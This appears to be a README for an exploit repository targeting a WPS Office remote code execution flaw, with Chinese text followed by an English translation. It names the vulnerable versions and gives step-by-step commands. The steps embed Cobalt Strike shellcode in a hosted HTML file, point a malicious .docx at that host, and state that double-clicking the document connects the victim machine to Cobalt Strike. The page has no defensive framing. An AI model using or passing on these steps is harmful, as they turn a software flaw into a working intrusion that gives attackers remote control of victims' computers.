 #看看这位师傅的，他写的好
[ba0gu0/wps-rce](https://github.com/ba0gu0/wps-rce)


# WPS-0DAY-20230809
WPS Office 2023个人版＜11.1.0.15120; WPS Office 2019企业版＜11.8.2.12085 
## 使用方法
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > 我这里使用的是CS中32位的payload, 使用`replace_shellcode.py`, 将`1.html`中的shellcode进行替换, 然后将`1.html`上传到你的托管地址, 例如: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > 替换`poc.docx`中的URL, 也就是你的托管地址
3. 双击文档即可上线CS



# WPS-0DAY-20230809
WPS Office 2023 Personal Edition ＜11.1.0.15120; WPS Office 2019 Enterprise Edition ＜11.8.2.12085 
## Usage
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > Here, I am using a 32-bit payload from CS. Use `replace_shellcode.py` to replace the shellcode in `1.html`, then upload `1.html` to your hosting address, for example: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > Replace the URL in `poc.docx`, which is your hosting address
3. Double-click the document to connect to CS

   
